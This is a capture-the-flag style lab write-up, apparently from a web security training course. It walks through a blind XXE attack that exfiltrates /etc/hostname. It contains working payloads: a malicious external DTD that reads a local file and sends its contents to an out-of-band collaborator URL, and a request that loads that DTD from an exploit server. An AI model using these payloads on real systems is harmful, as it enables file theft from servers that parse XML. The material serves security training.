

# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

> Lab Objective: exfiltrate the contents of the /etc/hostname file.

- Check Stock for any product then inspect the request.

- You'll notice that the POST body is sent in an XML Format.
  

- Use this payload to check which data value will be reflected in the response.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY xxe "HELLO">
]>
<stockCheck>
    <productId>
        1 &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- But you'll notice that XML External Entities are blocked.
  

- But when trying to trigger Out-of-Band Interaction with XML Parameter Entities, the interaction succeeded.
  
  

- Therefore, host this payload on the exploit server:

```xml
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'BURP-COLLABORATOR-URL?x=%file;'>">
    %eval;
    %exfiltrate;
```

- Send this payload through the POST body of the Stock Check Request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY % hack SYSTEM "https://exploit-0a95002c0455479c9fecfcc901b8007d.exploit-server.net/exploit">
    %hack;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- Then Send that request, and Poll Now on the Collaborator Tab, and view the HTTP Request, you'll find `/etc/hostname` content.
  

- Submit it, then the lab is solved successfully.
  

---
